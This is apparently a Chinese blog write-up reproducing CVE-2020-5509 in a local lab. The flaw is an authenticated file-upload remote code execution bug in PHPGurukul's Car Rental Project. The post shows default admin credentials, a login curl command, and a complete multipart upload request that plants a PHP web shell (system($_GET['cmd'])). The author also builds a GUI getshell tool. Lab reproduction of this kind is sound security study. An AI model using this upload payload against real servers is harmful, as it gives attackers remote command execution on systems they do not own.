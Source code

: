 ```yaml
---
title: CVE-2020-5509 Repetition
published: true
---
```

# [](#header-1)零.前言:
下午在Github上逛,找代码学习,突然瞥到CVE-2020-5509,看到了外国友人写的POC
原址:https://github.com/FULLSHADE/CVE-2020-5509-POC
于是搭建了环境,进行复现!
# [](#header-2)一.环境搭建:
搭建环境:
```
Windows server 2012 R2 阿帕奇 PHP7.5
```
官方源码:https://phpgurukul.com/car-rental-project-php-mysql-free-download/
搭建时需要新建一个数据库,然后将官方给的.sql数据文件导入到那个库里!
之后配置config.php信息,(要配置两个,一个是\includes\config.php,一个是\admin\config.php)
搭建完成图:
![1|690x352](https://m4tir.github.io/cve-2020-5509/1.png) 
之后就可以开始愉快地复现了!
# **二.复现过程:**
我们先用国外人写的poc打一下靶场:
```
python CVE-2020-5509.py 192.168.1.5(目标ip)
```
![1|528x212](https://m4tir.github.io/cve-2020-5509/2.png) 
```
[!] Failed to authenticate
```
**难道失败了?我重新看了一遍国外人写的poc,原来有处坑!**
![2|690x93](https://m4tir.github.io/cve-2020-5509/3.png) 
```
/carrentalproject/carrental/admin/changeimage1.php ##我们实际上是搭建在根目录的，不知道他这个/carrentalproject/carrental/目录是怎么来的，正是因为如此，才会获取不到tok值!
```
我们改一下poc!
![3|516x92](https://m4tir.github.io/cve-2020-5509/4.png) 
**ba把路径中的/carrentalproject/carrental去掉,再试试!**
![4|653x328](https://m4tir.github.io/cve-2020-5509/5.png) 
**ok，成功了!(但是它的终端有点奇怪,不管他)**
**国外友人的工具我用的不适手,于是便打算自己写一个图形化的工具!**
# **三.工具编写(.e):**
**话不多说，先构建界面,再导入一个精易模块:**
![1|381x374](https://m4tir.github.io/cve-2020-5509/6.png) 
**然后双击"Getshell"按钮，进入代码界面!**
**Getshell的第一步是要获取到Cookie，来进行鉴权文件上传!**
![2|665x145](https://m4tir.github.io/cve-2020-5509/7.png) 
```
curl -H "http://website/admin/index.php/" -D "username=admin&password=Test@12345&login="
```
**然后就通过鉴权文件上传来进行getshell**
![3|690x159](https://m4tir.github.io/cve-2020-5509/8.png) 
**上传包:**
```
--I am lonely
Content-Disposition: form-data; name="img1"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
--I am lonely
Content-Disposition: form-data; name="update"

--I am lonely

```
**协议头:**
```
Content-Type: multipart/form-data; boundary="I am lonely"
```
然后尝试一下:
![4|372x362](https://m4tir.github.io/cve-2020-5509/9.png) 
**成功上传!**
**源码就不发了,因为所有代码就这几行:**
![5|683x312](https://m4tir.github.io/cve-2020-5509/10.png) 
**end！**

参考文章:
```
https://www.anquanke.com/vul/id/1894422
https://govanguard.com/threat-center/2020/01/13/car-rental-project-1-0-remote-code-execution/
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202001-437
```
